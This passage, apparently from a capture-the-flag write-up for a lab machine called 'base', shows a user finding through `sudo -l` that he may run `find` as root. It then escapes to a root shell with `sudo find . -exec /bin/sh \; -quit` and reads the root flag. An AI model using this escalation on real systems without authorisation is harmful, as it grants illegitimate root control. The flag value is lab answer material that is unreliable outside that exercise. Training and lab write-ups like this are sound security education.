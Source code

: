 `sudo -l` to list the allowed (and forbidden) commands for the invoking user.
```
john@base:/$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

`find` can be used to [break out](/Methodology_and_Resources/GTFOBins.md) and escalate privileges pretty easily: 
```
john@base:/$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
51709519ea18ab37dd6fc58096bea949
```

![image](https://github.com/user-attachments/assets/f7f0b1ae-afa4-4ddd-aa70-f765b5658133)
